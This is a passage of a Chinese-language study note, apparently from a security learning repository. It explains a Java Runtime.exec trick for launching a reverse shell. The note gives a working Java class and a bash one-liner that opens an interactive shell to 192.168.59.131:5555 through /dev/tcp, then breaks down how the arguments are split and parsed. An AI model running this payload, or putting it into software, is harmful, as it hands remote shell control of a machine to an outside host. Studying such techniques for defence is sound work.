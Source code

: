   * 此处**不明白**为什么不生效

* Payload在Java中生效，在Terminal中执行**不清楚**为什么shell会自动退出

  ```java
  import java.io.IOException;
  
  public class Sample {
      public static void main(String[] args) {
          try {
              Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.59.131/5555 0>&1");
          } catch (IOException e) {
              e.printStackTrace();
          }
      }
  }
  ```

  * 经过分割后变成["/bin/bash", "-c", "$@\|bash", "0", "echo", "bash", "-i", ">&",  "/dev/tcp/192.168.59.131/5555", "0>&1"]

  * 各个参数含义如下

    | 命令                                         | 含义                                                         |
    | -------------------------------------------- | ------------------------------------------------------------ |
    | /bin/bash                                    | 调用bash程序                                                 |
    | -c                                           | bash的参数，从脚本中获取bash命令                             |
    | $@                                           | 获取命令行参数                                               |
    | \|                                           | 管道符，将其之前的输出交给其之后的命令作为命令参数           |
    | bash                                         | 调用bash程序                                                 |
    | 0                                            | 此处可为任意字符串，因为bash -c  'script' scriptname，此处为脚本的名称 |
    | echo                                         | 用于将其后面的所有内容进行打印输出                           |
    | bash -i >& /dev/tcp/192.168.59.131/5555 0>&1 | 用于反弹shell的Payload，此时被分割为多个命令行参数           |
    
  * 命令被bash解析的流程如下
  
    * 初始命令
  
      ```shell
      /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.59.131/5555 0>&1
      ```
  
    * bash读取`-c`选项，将其后第一个参数作为脚本，将其后第二个非选项参数作为脚本名，将其后所有参数作为该脚本的命令行输入参数
  
      ```shell
      $@|bash echo bash -i >& /dev/tcp/192.168.59.131/5555 0>&1
      ```
  
    * $@操作符为shell内默认的操作符，用于表示所有命令行参数
  
